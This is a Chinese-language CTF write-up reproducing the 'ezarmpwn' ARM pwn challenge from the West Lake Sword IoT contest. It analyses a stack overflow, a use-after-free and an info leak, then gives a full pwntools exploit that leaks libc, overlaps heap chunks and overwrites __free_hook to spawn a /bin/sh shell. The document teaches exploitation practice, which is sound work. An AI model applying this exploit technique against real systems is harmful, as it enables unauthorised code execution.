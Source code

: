 ```yaml
---
layout: post
title: 西湖论剑IoT闯关赛复现
description: 有幸参加西湖论剑的比赛，虽然比赛结果不太理想，但每次比赛都会有很大的收获，我决定将这些东西写下来作为分享，如果有错误请批评指正
categories:  IoT
---
```










<!-- more -->

## ezarmpwn

#### 分析程序

首先查看程序保护机制

32位程序

libc是2.30

没有canary（基本是栈溢出）

无PIE(果然ez)

![](/images/character13/ezarmpwn1.png)

#### 静态分析

**register**

输入的username长度没有限制，然后复制到dest上,可实现栈溢出

![](/images/character13/ezarmpwn2.png)

---



**Add函数** 

可添加 size<=0x70的heap（tcache,fastbin)

![](/images/character13/ezarmpwn4.png)

---

**Delete**

UAF漏洞

![](/images/character13/ezarmpwn5.png)

---

**modify**

修改dest，由于dest是0x40大小，可以溢出0x8个字节,同时注意到buf是没有初始化的，我们可以通过这个泄漏栈里面的数据

![](/images/character13/ezarmpwn6.png)

---

**Info**

info打印username和password



#### 利用分析

1.泄漏地址

由于程序有个printf打印username和passwd,可通过将\x00覆盖得到想要的地址

通过分析username可以泄漏地址，分析passwd得知通过modify函数可以泄漏libc

* 0xfffef084是passwd的地址,可以看到里面有libc的地址![](/images/character13/ezarmpwn7.png)

2.利用分析

* 栈溢出控制返回地址

* UAF漏洞(tcache,fastbin,unsortedbin) **这里是32位系统，fastbin大小是0-0x50** 

  由于版本是libc-2.30.so

  而且我们只能使用add和free,所以tcache bin attack无法完成

  如果是fastbin attack也不行，因为只能申请 0xf 次

  但是我们可以用 overchunk 的思想

  通过合并堆块0和1之后再分配一个大的堆块2(unsortedbin的大小)，这样就可以伪造堆块1了

  由于是UAF，所以free掉堆块1就可以进入tcache了

  然后free掉堆块2，再分配一次可以将tcache改为free_hook就可以分配进去了

#### exp

```c

from pwn import *


context.log_level="debug"
def info():
   p.sendlineafter("> ","2")


def play():
   p.sendlineafter("> ","1")


def add(index,size,note):
   play()
   p.sendlineafter("> ","1")
   p.sendafter(": ",str(index))
   p.sendlineafter(": ",str(size))
   p.sendafter(": ",note)


def delete(index):
   play()
   p.sendlineafter("> ","2")
   p.sendlineafter(": ",str(index))
   
p=process(["qemu-arm","-g","1234","-L",".","./pwn3"])
#p = remote("20.20.11.14", 9999)


un="aaaaa"
pd1="bbbbb"
pd2="bbbbb"
p.sendlineafter(":",un)
p.sendlineafter(":",pd1)
p.sendlineafter(":",pd2)
p.sendline("")


p.sendlineafter("> ","3")
p.sendlineafter(":","a"*0x20)
p.sendline("")


info()
p.recvuntil(": ")
libc=u32(p.recv(4))+0xff69cba0-0x044ba0-0xff68a248
# print hex(libc)


for i in range(9):
   add(i,0x40,"aaaa\n")
add(15,6,"a\n") #0x10
add(14,6,"a\n") #0x10
delete(15) 
delete(14) #tcache[0x10]=14->15
for i in range(9):
   delete(8-i) #fastbin=0->1 
free_hook = libc + 0x1479cc
system    = libc + 0x3a028
add(9,0x70,"a"*0x40+p32(0)+p32(0x11)+p32(0)*3+p32(0x39)+"\n") #overchunk
delete(1) #tcache[0x10] = 1->14->15
delete(9)  
add(10,0x70,"a"*0x40+p32(0)+p32(0x11)+p32(free_hook)*3+p32(0x39)+p32(libc+0x1479cc)+"\n")
add(11,8,"/bin/sh\x00")
add(12,8,p32(libc+0x3a028)+"\n")
# print hex(libc+0x1479cc)
delete(11)
p.interactive()
```

#### 参考

exp参考chamd5的wp,如果分析有错请批评指正

邮箱:VinadiakT@outlook.com



